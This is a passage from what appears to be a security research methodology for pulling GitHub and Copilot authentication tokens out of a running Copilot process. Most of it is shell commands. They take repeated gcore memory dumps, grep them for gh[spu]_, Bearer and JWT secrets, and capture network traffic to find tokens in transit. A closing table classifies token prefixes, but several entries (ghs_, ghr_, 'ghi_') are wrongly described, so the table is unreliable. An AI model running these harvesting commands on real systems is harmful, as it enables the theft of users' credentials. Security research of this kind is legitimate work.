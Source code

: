 #### 2.3 Memory Pattern Analysis
```bash
# Look for encoded/encrypted secrets
strings dump_file | grep -E "base64|jwt|bearer" -i > encoded_secrets.txt

# Search for JSON structures containing secrets
strings dump_file | grep -E '{"[^"]*token[^"]*":|"[^"]*auth[^"]*":' > json_secrets.txt

# Find hexadecimal patterns that might be encoded tokens
strings dump_file | grep -E '[0-9a-fA-F]{32,}' > hex_patterns.txt
```

#### 2.4 Temporal Secret Analysis
```bash
# Create multiple memory snapshots over time to track token persistence
for i in {1..5}; do
    echo "Creating snapshot $i at $(date)"
    gcore -o "temporal_dump_${i}_$(date +%s)" "$COPILOT_PID"
    sleep 30
done

# Compare token presence across snapshots
for dump in temporal_dump_*; do
    strings "$dump" | grep -E "gh[spu]_" > "${dump}_tokens.txt"
done
```

#### 2.5 Cross-Reference with Network Traffic
```bash
# Monitor network traffic while analyzing memory
tcpdump -i any -w network_capture.pcap &
TCPDUMP_PID=$!

# Analyze memory dumps
# ... perform memory analysis ...

# Stop network capture and analyze
kill $TCPDUMP_PID
strings network_capture.pcap | grep -E "gh[spu]_|Bearer|Authorization" > network_tokens.txt
```

### Phase 3: Enhanced Secret Categorization Framework

#### 3.1 Expanded Token Classification
| Token Type | Prefix | Ownership | Risk Level | Scope | Context Indicators |
|------------|--------|-----------|------------|-------|-------------------|
| Personal Access Token | `ghp_` | User | MEDIUM | Limited by user perms | User repos, limited scope |
| Session Token | `ghs_` | GitHub Internal | HIGH | Broad internal access | Internal APIs, system ops |
| User Token | `ghu_` | User | MEDIUM | User-specific | User operations only |
| App Token | `ghr_` | GitHub App | HIGH | App-level permissions | App installations |
| Installation Token | `ghi_` | GitHub App Install | HIGH | Specific installation | Repository access |
| OAuth Token | `gho_` | OAuth Application | MEDIUM | OAuth scope limited | Third-party integrations |
